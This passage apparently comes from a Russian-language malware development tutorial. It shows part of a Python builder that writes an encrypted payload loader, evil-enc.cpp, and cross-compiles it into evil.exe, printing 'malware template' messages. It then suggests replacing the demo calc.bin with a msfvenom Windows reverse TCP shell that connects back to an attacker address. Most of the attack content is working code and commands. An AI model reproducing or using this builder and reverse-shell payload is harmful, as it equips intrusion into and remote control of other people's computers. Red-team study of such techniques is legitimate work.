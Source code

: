 ```python
tmp.close()
tmp = open("evil-enc.cpp", "w+")
tmp.write(data)
tmp.close()

## compile
try:
    cmd = "x86_64-w64-mingw32-gcc evil-enc.cpp"
    cmd += "-o evil.exe -s -ffunction-sections"
    cmd += "-fdata-sections -Wno-write-strings"
    cmd += " -fno-exceptions -fmerge-all-constants"
    cmd += "-static-libstdc++ -static-libgcc"
    cmd += " >/dev/null 2>&1"
    os.system(cmd)
except:
    print ("error compiling malware template :(")
    sys.exit()
else:
    print (cmd)
    print ("successfully compiled :)")

```

Для простоты мы используем payload `calc.bin`:    

![payload bin](./images/2/2021-09-04_14-25.png){width="80%"}    

но в реальном сценарии можно использовать что-то вроде:    
```bash
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=10.9.1.6 LPORT=4444 -f raw -o hack.bin
```

Запускаем Python-скрипт:    
```bash
python3 evil_enc.py
```

![python encrypt](./images/2/2021-09-04_14-40.png){width="80%"}    
